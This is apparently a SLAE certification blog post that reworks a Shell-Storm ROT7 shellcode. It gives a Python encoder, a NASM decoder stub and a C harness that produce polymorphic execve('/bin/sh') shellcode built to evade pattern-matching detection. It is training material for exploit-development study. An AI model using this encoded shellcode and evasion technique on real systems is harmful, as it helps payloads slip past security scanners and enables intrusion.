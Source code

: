 # Assignment 6: ROT7 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Download and Execute shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-900.php](http://shell-storm.org/shellcode/files/shellcode-900.php "").

### Shellcode Analysis

To begin, lets grab a copy of that shellcode, compile it, and trace it with GDB:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb1.png "GDB")

As can be appreciated, the shellcode uses the `JMP-CALL-POP` technique to get the payload address on the stack. The payload in this case is is the following string:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb2.png "Encoded Payload")

which is of course the ROT7 encoded version of the shellcode that we want to execute. 

To decode the encoded opcodes, the shellcode loops around `0x1e` (30) times, basically doing `f(x) = 0x100 + (0x7 - x)`, where `x` is the next opcode. The encoded opcode is replaced by the decoded one, which is the result of the aforementioned mathematical expression. When everything is decoded, the control is transfered to the shellcode address previously `JMP-CALL-POP`ed.

If we break after the shellcode has been decoded, we can see that the decoded version is what is commonly known as a "stack-based `execve()` shell" shellcode. 

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb3.png "Decoded Payload")

### Polymorphic Shellcode

Just like in the original Shell-Storm post, we will need a ROT7 encoder for our decoder to use. We will also use an `execve()` shellcode for this example. One important design decision about this encoder, is that the first byte of the encoded shellcode is length of the plaintext shellcode. This allows to dynamically adjust for any plaintext shellcode, as long as it does not exceed the length of `0xff`, of course. This is taken into account for the decoder code. 

### a6-rot7-encode.py
```python
#!/usr/bin/python

# Python ROT-7 Encoder
# execve 24 bytes
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
    "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)

encoded = "\\x%02x," % len(bytearray(shellcode))
encoded2 = "0x%02x," % len(bytearray(shellcode)) 

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
# boundary is computed as 255-ROT(x) where x, the amount to rotate by
    if x > 248:
        encoded += '\\x'
        encoded += '%02x' %(7 -(256 - x))
        encoded2 += '0x'
        encoded2 += '%02x,' %(7 -(256 - x))
    else:
        encoded += '\\x'
        encoded += '%02x'%(x+7)
        encoded2 += '0x'
        encoded2 += '%02x,' %(x+7)
    
print '\n%s\n\n%s\n\nShellcode Length: %d\n' % (encoded, encoded2, len(bytearray(shellcode)))
```

Running the encoder produces the following opcodes, which we will be decoding further on:

```
Encoded shellcode ...

\x18,\x38\xc7\x57\x6f\x36\x36\x7a\x6f\x6f\x36\x69\x70\x75\x90\xea\x38\xd0\x90\xd1\x71\x12\x5f\xd4\x87

0x18,0x38,0xc7,0x57,0x6f,0x36,0x36,0x7a,0x6f,0x6f,0x36,0x69,0x70,0x75,0x90,0xea,0x38,0xd0,0x90,0xd1,0x71,0x12,0x5f,0xd4,0x87,

Shellcode Length: 24
```

Like the original shellcode from Shell-Storm, the morphed version will use the `JMP-CALL-POP` technique to get the address of the encoded shellcode. However, the mathematical manipulation will be different: `f(x) = x - 0x7`, where `x` is the next opcode. The encoded opcode will be replaced by the decoded one, which would be the result of the aforementioned mathematical expression.

### a6-rot7-decode.nasm
```nasm
; SLAE Assignment 6: ROT7 decoder (morphed)
; http://shell-storm.org/shellcode/files/shellcode-900.php
; Original Shellcode Length: 74
; Morphed Shellcode Length:  54

global _start
section .text
_start:
	jmp short stage

decoder:
	pop esi						; shellcode address
	mov al, byte [esi]			; shellcode length
	xor ecx, ecx 				; position

decode:
	mov bl, byte [esi+ecx+1]	; get rot'ed byted
	sub bl, 0x7					; rot it back (-7)
	mov byte [esi+ecx], bl		; store it in shellcode
	inc ecx						; next position
	cmp al, cl					; check if reached the end of shellcode
	jnz short decode 			; 	if not, continue derot'ing
	jmp shellcode				;	else, execute derot'ed shellcode

stage:
	call decoder
	
	; Shellcode Format: 
	; 	byte[0] 	= length of shellcode (max 0xff)
	;	byte[1..] 	= rot'ed shellcode
	shellcode: db 0x18,0x38,0xc7,0x57,0x6f,0x36,0x36,0x7a,0x6f,0x6f,0x36,0x69,0x70,0x75,0x90,0xea,0x38,0xd0,0x90,0xd1,0x71,0x12,0x5f,0xd4,0x87
```

Let's compile, link, and get the opcodes:

```
nasm -f elf32 -o a6-rot7-decode.o a6-rot7-decode.nasm
ld -o a6-rot7-decode a6-rot7-decode.o 
objdump -d ./a6-rot7-decode |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
```

Make an executable skeleton for the opcodes:

### rot7.c
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x16\x5e\x8a\x06\x31\xc9\x8a\x5c\x0e\x01\x80\xeb\x07\x88\x1c\x0e\x41\x38\xc8\x75\xf1\xeb\x05\xe8\xe5\xff\xff\xff\x18\x38\xc7\x57\x6f\x36\x36\x7a\x6f\x6f\x36\x69\x70\x75\x90\xea\x38\xd0\x90\xd1\x71\x12\x5f\xd4\x87";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

And finally compile, execute, and check:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/example.png "Example")

Looks like everything works as expected: a `/bin/sh` is spawned.

As can be observed, the reported shellcode length is 54, which is 20 bytes shorter than the original 74. 

